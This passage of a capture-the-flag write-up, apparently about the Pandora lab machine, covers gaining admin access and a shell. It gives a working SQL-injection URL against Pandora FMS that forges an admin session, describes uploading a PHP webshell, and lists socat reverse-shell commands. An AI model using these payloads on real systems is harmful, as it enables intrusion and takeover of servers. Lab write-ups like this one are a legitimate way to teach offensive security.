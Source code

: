 ![](/assets/img/Icons/Pandora/mattaccount.png)

Unfortunately, Matt is not an admin. However, using the following SQL injection line from `sqlpwn.py` gave me the admin cookie, to elevate to admin.

> https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py

```http:///pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO'```

### Webshell
Now i am able to upload files via the admin file manager.
![](/assets/img/Icons/Pandora/fileupload.png)

After trying to upload a php reverse shell and getting no luck, i decided to upload a php webshell.

![](/assets/img/Icons/Pandora/phpwebshell.png)

From here, i attempted to get a reverse shell with socat, which allows full TTY over shells. 
###### Host
`socat file:tty,raw,echo=0 tcp-listen:4445`
######  Web Shell
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>`

We have a reverse shell, nice!

## User
Moving to the matt directory, i can now access the user flag.
<pre>
matt@pandora:/home/matt$ cat user.txt 
*30***b8557f5**be1160c*4be67c***
</pre>

## Priviledge Esculation
After some looking around, i noticed that i was in some sort of restricted environment. When typing `sudo`, i was presented with the following weird error message.
<pre>
matt@pandora:/home/matt$ sudo
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```